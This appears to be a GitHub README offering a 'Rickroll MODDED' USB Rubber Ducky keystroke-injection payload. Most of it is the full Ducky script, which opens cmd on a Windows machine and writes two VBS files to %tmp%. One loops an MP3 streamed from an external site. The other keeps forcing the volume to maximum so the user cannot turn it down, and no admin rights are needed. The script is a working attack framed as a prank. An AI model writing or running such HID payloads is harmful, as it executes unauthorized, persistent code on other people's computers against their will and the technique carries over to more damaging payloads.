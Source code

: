 # Rickroll MODDED
This is a modification of the original "<a href="https://gitlab.com/WarKitteh/arduino-hid-rickroll">Rickroll</a>". It does the same thing, but it's got a big difference: It sets the volume to the maximum continuously. What happens if someone tries to get down the volume? A .vbs resets it to the maximum level. Oh, and it doesn't need admin permissions.

# About...
Version: 1.0

Author: BlueArduino20

# Code for Rubber Ducky
<pre><code>DELAY 3500
GUI r
DELAY 200
STRING cmd
ENTER
DELAY 200
STRING cd %tmp% && copy con rickyou.vbs
ENTER
STRING While true
ENTER
STRING Dim oPlayer
ENTER
STRING Set oPlayer = CreateObject("WMPlayer.OCX")
ENTER
STRING oPlayer.URL = "https://pixelcoding.nl/download/rickroll.mp3"
ENTER
STRING oPlayer.controls.play
ENTER
STRING While oPlayer.playState <> 1 ' 1 = Stopped
ENTER
STRING WScript.Sleep 100
ENTER
STRING Wend
ENTER
STRING oPlayer.close
ENTER
STRING Wend
ENTER
DELAY 100
CTRL z
ENTER
STRING copy con volup.vbs
ENTER
STRING do
ENTER
STRING Set WshShell = CreateObject("WScript.Shell")
ENTER
STRING WshShell.SendKeys(chr(&hAF))
ENTER
STRING WScript.Sleep 10
ENTER
STRING loop
ENTER
CTRL z
ENTER
STRING start rickyou.vbs && volup.vbs
ENTER</pre></code>

# Code for Arduino

<a href="https://github.com/BlueArduino20/Rickroll-MODDED/blob/master/Rickroll-MODDED-for-Arduino.ino">Rickroll-MODDED-for-Arduino.ino</a>

